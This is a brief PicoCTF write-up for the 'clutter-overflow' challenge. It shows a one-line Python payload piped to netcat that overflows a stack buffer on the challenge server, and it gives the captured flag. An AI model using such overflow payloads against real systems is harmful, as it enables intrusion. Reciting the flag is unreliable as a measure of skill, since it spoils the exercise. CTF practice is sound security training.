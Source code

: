 # clutter-overflow #

This is the write-up for the challenge "clutter-overflow" challenge in PicoCTF

# The challenge

## Description
AUTHOR: NOTDEGHOST

Description
Clutter, clutter everywhere and not a byte to use.
nc mars.picoctf.net 31890
the website:https://play.picoctf.org/?search=clutter-overflow


![description](imgs/description.png)

## Hints
None


# How to solve it

I open picoCTF Webshell and write:

```python -c "import sys; sys.stdout.buffer.write(b'h' * 0x108 + b'\xde\xad\xbe\xef'[::-1] + b'\n')" | nc mars.picoctf.net 31890 | grep -Eo picoCTF{.*?}```


![solution](imgs/solution.png)


The flag is `picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}`

Thanks 😄

Hadar Liel Harush